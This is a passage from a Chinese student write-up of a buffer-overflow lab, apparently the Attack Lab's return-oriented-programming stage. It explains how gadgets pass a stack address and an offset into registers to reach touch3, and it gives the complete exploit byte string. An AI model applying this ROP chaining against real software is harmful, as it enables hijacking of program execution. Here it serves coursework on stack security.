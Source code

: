 &emsp;&emsp;这就是破局的关键。我们只需要将cookie放在栈帧的最上方，然后计算出一个基址和偏移值，并将基址和偏移值分别赋值给rdi和rsi就能得到cookie的地址，并且将这个地址传递给rax，然后传递给rdi，大功告成。  

&emsp;&emsp;剩下的问题是，如何赋值给rsi。  
&emsp;&emsp;查表，没想到这个也要绕路。  
&emsp;&emsp;先是查到有mov %ecx,%esi，嗯找什么可以赋值给ecx，  
&emsp;&emsp;然后查到有mov %edx, %ecs，嗯找什么可以复制给edx，  
&emsp;&emsp;最后查到有mov %eax, %edx，嗯搞定了。  

![Attack-rl3](Attack-rl3.png "Attack-rl3")

最后梳理一下:
1.	首先将rsp的基址传给rdi，可以将rsp传递给rax再传递给rdi。
2.	然后通过pop得到偏移值，再将偏移值七绕八拐传递给rsi。
3.	最后跳转到touch3处，搞定。  

输入字节码如下：
```
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 00
```

#	事后
&emsp;&emsp;完成这个实验，获益匪浅。见识了两种曾经的主流缓冲区溢出破坏方式，加深了我对栈帧空间的理解。希望以后写代码时，我能够以一个更为底层的角度去考虑代码结构，去思考代码的合理性与安全性。








 